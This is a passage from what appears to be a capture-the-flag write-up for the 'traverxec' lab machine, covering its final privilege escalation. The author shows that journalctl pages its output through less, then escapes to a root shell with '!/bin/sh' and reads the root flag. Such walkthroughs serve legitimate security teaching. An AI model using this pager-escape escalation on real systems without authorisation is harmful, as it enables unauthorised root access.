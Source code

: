 According to the `man` page of `journalctl`, the output is piped to `less`!

{% highlight raw %}
...
The output is paged through less by default, and long lines are "truncated" to screen
width. The hidden part can be viewed by using the left-arrow and right-arrow keys.
Paging can be disabled; see the --no-pager option and the "Environment" section below.
...
{% endhighlight %}

`less` will only work as intended if the output is more than the capacity of the terminal screen, hence if we shrink the width of it and run the command again,

{% highlight raw %}
- Logs begin at Wed 2020-01-01 02:24:45 EST, end at Wed 2020-01-01 03:45:55 EST. --
Jan 01 03:22:18 traverxec sudo[1420]: www-data : unknown user: #-1
Jan 01 03:44:32 traverxec su[1670]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/9 ruser=www-data rhost=  user=davi
Jan 01 03:44:34 traverxec su[1670]: FAILED SU (to david) www-data on pts/9
Jan 01 03:45:04 traverxec su[1674]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/9 ruser=www-data rhost=  user=davi
Jan 01 03:45:05 traverxec su[1674]: FAILED SU (to david) www-data on pts/9
lines 1-6/6 (END)
{% endhighlight %}

# root.txt

We get a somewhat incomplete output and by entering `!/bin/sh`, we get a shell as `root`!

{% highlight bash %}
!/bin/sh
# whoami
root
# cat /root/root.txt
9aa3XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


## Rooted ! Thank you for reading and look forward for more writeups and articles !
